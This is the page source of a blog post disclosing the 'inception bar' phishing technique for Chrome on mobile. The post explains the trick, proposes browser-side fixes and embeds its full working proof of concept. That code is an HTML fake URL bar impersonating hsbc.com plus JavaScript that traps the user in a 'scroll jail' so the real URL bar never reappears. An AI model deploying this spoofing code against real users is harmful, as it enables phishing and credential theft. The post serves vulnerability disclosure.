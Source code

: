 ```yaml
---
title: "The inception bar: a new phishing method"
tags: ["programming", "security", "fave"]
---
```



Welcome to HSBC, the world's seventh-largest bank!
Of course, the page you're reading isn't actually hosted on `hsbc.com`;
it's hosted on `jameshfisher.com`.
But when you visit this page on Chrome for mobile and scroll a little way,
the page is able to display itself as `hsbc.com` -
and worse,
the page is able to jail you in this fake browser!
In this post I show how the attack works,
then suggest some ways Chrome can fix this vulnerability,
then finally show you how to get out if you're still stuck here.
But first, the proof:

<p><img src="{% link assets/2019-04-27/proof.png %}"/></p>

In Chrome for mobile,
when the user scrolls down, 
the browser hides the URL bar,
and hands the URL bar's screen space to the web page.
Because the user associates this screen space with "trustworthy browser UI",
a phishing site can then use it to pose as a different site,
by displaying its own fake URL bar -
the inception bar!

This is bad, but it gets worse.
Normally, when the user scrolls up,
Chrome will re-display the true URL bar.
But we can trick Chrome so that it never re-displays the true URL bar!
Once Chrome hides the URL bar,
we move the entire page content into a "scroll jail" -
that is, a new element with `overflow:scroll`.
Then the user _thinks_ they're scrolling up in the page,
but in fact they're only scrolling up in the scroll jail!
Like a dream in _Inception_,
the user believes they're in their own browser,
but they're actually in a browser within their browser.
Here's a video of the hack in use:

<video width="100%" controls autoplay loop style="margin: 0 auto; border: 2px solid black;">
  <source src="{% link assets/2019-04-27/demo.webm %}" type="video/webm">
  Your browser does not support the video tag.
</video>

But it gets even worse!
Even with the above "scroll jail",
the user should be able to scroll to the top of the jail,
at which point Chrome will re-display the URL bar.
But we can disable this behavior, too!
We insert a very tall padding element
at the top of the scroll jail.
Then, if the user tries to scroll into the padding,
we scroll them back down to the start of the content!
It looks like a page refresh.

In my proof-of-concept,
I've just screenshotted Chrome's URL bar on the HSBC website,
then inserted that into this webpage.
With a little more effort,
the page could detect which browser it's in,
and forge an inception bar for that browser.
With yet more effort,
the inception bar could be made interactive.
Even if the user isn't fooled by the current page,
you can get another try 
after the user enters "gmail.com" in the inception bar!

Is this a serious security flaw?
Well, even I, as the creator of the inception bar,
found myself accidentally using it!
So I can imagine this technique fooling users 
who are less aware of it,
and who are less technically literate.
The only time the user has the opportunity to verify the true URL
is on page load, 
before scrolling the page.
After that, there's not much escape.

How can you guard yourself against this attack?
I don't really know.
I see it as a security flaw in Chrome.
But what's the fix?
There's a trade-off,
between maximizing screen space on one hand,
and retaining trusted screen space on the other.
One compromise would be for Chrome to retain a small amount of screen space
above [the "line of death"](https://textslashplain.com/2017/01/14/the-line-of-death/)
instead of giving up literally _all_ screen space to the web page.
Chrome could use this space to signal that 
"the URL bar is currently collapsed",
e.g. by displaying the shadow of an almost-hidden URL bar.

I don't want to keep you any longer.
If you're still stuck here,
one way to get out is to
[go to the Hacker News discussion and upvote this article](https://news.ycombinator.com/item?id=19768072).
Or, for hacks similar to this one,
see [this inception attack based on the fullscreen API](https://feross.org/html5-fullscreen-api-attack/),
or [my "custom cursor" inception attack from 2016](https://jameshfisher.github.io/cursory-hack/).

<div id="fakeurlbar" style="display: none; position: fixed; top: 0px; left: 0; height: 74.77037037037037px; width: 100vw; background-image: url('{% link assets/2019-04-27/bar_background.png %}'); background-size: 19px 74.77037037037037px;">
  <img src="{% link assets/2019-04-27/bar_left.png %}" style="float: left; width: 211.72222222222223px;"/>
  <img src="{% link assets/2019-04-27/bar_right.png %}" style="float: right;  width: 124.74444444444444px;"/>
</div>

<script>
  let scrollJailEl = null;
  const initialHeight = window.innerHeight;
  const fakeUrlBarEl = document.getElementById("fakeurlbar");
  const fakeTopHeight = 200;
  document.body.appendChild(fakeUrlBarEl);
  window.onresize = function() {
    if (window.innerHeight > initialHeight && !scrollJailEl) {
      // Chrome has given up its URL bar! 
      // Create the scroll jail and the fake URL bar!

      const jailScrollTo = window.scrollY;

      fakeUrlBarEl.style.display = "block";

      document.body.style.margin = "0";

      scrollJailEl = document.createElement("div");
      scrollJailEl.style.position = "fixed";
      scrollJailEl.style.overflowX = "scroll";
      scrollJailEl.style.overflowY = "scroll";
      scrollJailEl.style.width = window.innerWidth + "px";
      scrollJailEl.style.height = window.innerHeight + "px";
      scrollJailEl.style.top = "56px";
      scrollJailEl.style.padding = "0 1em";

      // create the fake top
      const fakeTopEl = document.createElement("div");
      fakeTopEl.style.height = fakeTopHeight + "px";
      scrollJailEl.appendChild(fakeTopEl);

      // move everything into the scroll jail
      while (document.body.children.length > 0) {
        const child = document.body.children[0];
        scrollJailEl.appendChild(child);
      }

      document.body.appendChild(scrollJailEl);
      document.body.appendChild(fakeUrlBarEl);

      scrollJailEl.scrollTop = jailScrollTo + fakeTopHeight + 56;

      let scroller;
      scrollJailEl.onscroll = e => {
        clearTimeout(scroller);
        scroller = setTimeout(() => {
          // We stopped scrolling. Reset the jail.
          scrollJailEl.scrollTo({
            top: Math.max(scrollJailEl.scrollTop, fakeTopHeight),
            left: 0,
            behavior: 'smooth'
          });
        }, 100);
        console.log("scroll");
      };
    }
  };
</script>

